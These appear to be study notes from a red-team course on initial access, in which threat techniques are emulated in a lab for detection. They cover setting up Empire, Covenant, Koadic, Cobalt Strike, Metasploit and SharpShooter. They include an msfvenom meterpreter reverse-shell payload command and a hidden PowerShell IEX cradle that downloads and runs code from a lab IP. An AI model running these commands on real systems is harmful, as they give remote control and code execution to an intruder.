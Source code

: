 ## Attack Fundamentals Initial Access Pt1

- Alfie Champion @ajp500
- Riccardo Ancarni 

- Improve understanding of attacks. so we can detect and prevent them
- Jarral Atckinson Blogs on extraction

- Analyse set of known ttps used by real threat actors
- Emulate them in a controlled lab enviroment 
- Observe the traces they leave

##Inital Access

Inital access is the set of tatics, techniques procedures used by malicious actors to obtain a foothold in the target environment

- maldocs example https://dissectmalware.wordpress.com/tag/maldoc/

###Empire

Initial Setup

Run the ./setup/install.sh script. This will install the few dependencies and run the ./setup/setup_database.py script. The setup_database.py file contains various setting that you can manually modify, and then initializes the ./data/empire.db backend database. No additional configuration should be needed- hopefully everything works out of the box.

Running ./empire will start Empire, and ./empire –debug will generate a verbose debug log at ./empire.debug. The included ./setup/reset.sh will reset/reinitialize the database and launch Empire in debug mode. There’s also a detailed “Empire Tips and Tricks” post up here.

- empire powershell https://github.com/EmpireProject/Empire


###Covenant

```
$ ~ > git clone --recurse-submodules https://github.com/cobbr/Covenant
$ ~ > cd Covenant/Covenant
$ ~/Covenant/Covenant > dotnet run
warn: Microsoft.EntityFrameworkCore.Model.Validation[10400]
      Sensitive data logging is enabled. Log entries and exception messages may include sensitive application data, this mode should only be enabled during development.
WARNING: Running Covenant non-elevated. You may not have permission to start Listeners on low-numbered ports. Consider running Covenant elevated.
Covenant has started! Navigate to https://127.0.0.1:7443 in a browser
```

- covenant c2 framework https://bestestredteam.com/2020/02/19/interacting-with-covenant-c2/

- covenant create a listener
- covenant launcher , stageless payload 
- encode in base64, fuzz 

```
git clone --recurse-submodules https://github.com/cobbr/Covenant
cd Covenant/Covenant
dotnet build
dotnet run
```
###Kodaic 

- kodaic hta used by apt28 https://github.com/zerosum0x0/koadic

```
git clone https://github.com/zerosum0x0/koadic.git
cd koadic
pip3 install -r requirements.txt
./koadic
```

- Is able to generate stagers within the hta  
- post aquistion framework

- set SRVHOST 192.168.7.2
- execute (generate the stager)
- zombies (implants)
- use exec_cmd 
- info 


###Cobalt Strike

```
Linux
Setup a recommended Java environment for Linux
Extract cobaltstrike-dist.tgz
tar zxvf cobaltstrike-dist.tgz
Run the update program to finish setup.
```

https://www.cobaltstrike.com/downloads/csmanual43.pdf

- cobalt strike beyond
- com shell execute method

- 


###Metasploit 

https://www.darkoperator.com/installing-metasploit-in-ubuntu

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.232.134 LPORT=4444 -f raw -b '\x00' -e x86/shikata_ga_nai -o shellcode.bin
```

- ct framework metasploit framework 

- operation cobalt kitty
- create listener 
- sigma rule, sigma converters. splunk, 
- babies of pain detect TTP
- eventid 4768, eventid 3, eventid 1
- os query tool
- LOLBin
- shellcode, doesn't need external depenaces,
- excel 4.0 code.


### Invoke-Obfuscation

- Powershell Module, ScriptBlock and Transcription logging to log Obfuscation

```
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.232.134:80/a'))"
```

https://github.com/danielbohannon/Invoke-Obfuscation

### sharpshooter 

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code. SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. It leverages James Forshaw's DotNetToJavaScript tool to invoke methods from the SharpShooter DotNet serialised object. Payloads can be retrieved using Web or DNS delivery or both; SharpShooter is compatible with the MDSec ActiveBreach PowerDNS project. Alternatively, stageless payloads with embedded shellcode execution can also be generated for the same scripting formats.

https://github.com/mdsecactivebreach/SharpShooter

```
python Sharpshooter.py --payload slk --rawscfile /tnp/shellcode.bin  --output test
```
